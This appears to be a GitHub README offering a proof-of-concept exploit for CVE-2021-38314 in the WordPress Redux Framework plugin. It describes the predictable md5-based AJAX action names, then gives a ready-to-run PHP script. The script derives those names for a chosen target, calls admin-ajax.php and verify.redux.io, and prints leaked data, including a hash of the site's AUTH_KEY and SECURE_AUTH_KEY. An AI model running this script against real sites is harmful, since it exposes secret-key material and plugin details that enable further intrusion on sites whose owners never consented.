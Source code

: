 # cve-2021-38314 - Unauthenticated Sensitive Information Disclosure
The Gutenberg Template Library & Redux Framework plugin <= 4.2.11 for WordPress registered several AJAX actions available to unauthenticated users in the `includes` function in `redux-core/class-redux-core.php` that were unique to a given site but deterministic and predictable given that they were based on an md5 hash of the site URL with a known salt value of '-redux' and an md5 hash of the previous hash with a known salt value of '-support'. These AJAX actions could be used to retrieve a list of active plugins and their versions, the site's PHP version, and an unsalted md5 hash of site&#8217;s `AUTH_KEY` concatenated with the `SECURE_AUTH_KEY` [1][2]

## Source code
```php
<?php
$target = "https://target.com";  
$key1 = md5("$target/-redux");
$key2 = file_get_contents("$target/wp-admin/admin-ajax.php?action=$key1");
$key3 = md5($key2. '-support');
$redux_code = file_get_contents("http://verify.redux.io/?hash=$key3&site=$target/");
echo file_get_contents("$target/wp-admin/admin-ajax.php?action=$key3&code=$redux_code");
```
save as the source code with .php extension

## How To Run
![usage](screenshot/poc.png)

## References:
- [1] "CVE - CVE-2021-38314," Mitre.org, 2021. [Online]. Available: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-38314. [Accessed: May 15, 2022]
- [2] Rizaldi Wahaz, “Unauthenticated Sensitive Information Disclosure at [REDACTED],” Medium, Nov. 25, 2021. [Online]. Available: https://wahaz.medium.com/unauthenticated-sensitive-information-disclosure-at-redacted-2702224098c. [Accessed: May 15, 2022]
